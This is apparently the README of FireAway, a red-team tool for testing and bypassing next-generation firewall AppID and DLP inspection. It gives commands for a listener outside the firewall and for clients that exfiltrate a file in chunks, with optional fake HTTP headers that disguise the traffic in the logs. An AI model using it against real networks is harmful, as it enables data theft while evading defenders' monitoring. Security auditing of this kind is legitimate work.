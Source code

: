FireAway-Next Generation Firewall Bypass Tool
=========
*v0.2*

Fireaway is a tool for auditing, bypassing, and exfiltrating data against layer 7/AppID inspection rules on next generation firewalls, as well as other deep packet inspection defense mechanisms, such as data loss prevention (DLP) and application aware proxies.  These tactics are based on the principle of having to allow connections to establish through the NGFW in order to see layer 7 data to filter, as well as spoofing applications to hide communication channels inside the firewall logs as normal user traffic, such as Internet surfing.

 **Starting the FireAway Server:**
Typically the FireAway server would be started on the egress side of the firewall (such as a server on the Internet), and listen on a port believed to be closed to see if any application based rules allow traffic out on this port:
 
 ```
python fa_server.py <port to listen on>  <mode>
```


All data received by the server on this port will be saved to the file ReceivedData.txt in the directory the server was launched from.  If the server detects differing sizes in the amount of data received (indicating firewall filtering has kicked in), this output will be shown on the server console:

  ```
Got the same or lower amount of data on two consecutive runs.  If sending test data, maximum data leak size may have been reached.
```


**Starting the FireAway Client/Application Spoofer:**
The FireAway client has two modes:
 
 - Test mode (mode 0)-Send random data in incrementing chunk sizes to see how much data can be sent before the firewall AppID engages and stops traffic flow.
 - Exfiltration mode (mode 1)-Open a file and send it in chunks through the firewall.

To start the basic client:

  ```
python fa_client.py <FireAway server IP> <Fireaway Server Port> <Client mode (0 or 1)>
```

To start the application spoofing client:
  ```
python fa_spoof.py <FireAway Server IP> <Fireaway Server Port> <Client mode (0 or 1)>
```

Application spoofing will randomly insert HTTP headers with the data chunks to pollute the logs with various applications in order to mask the data exfiltration.
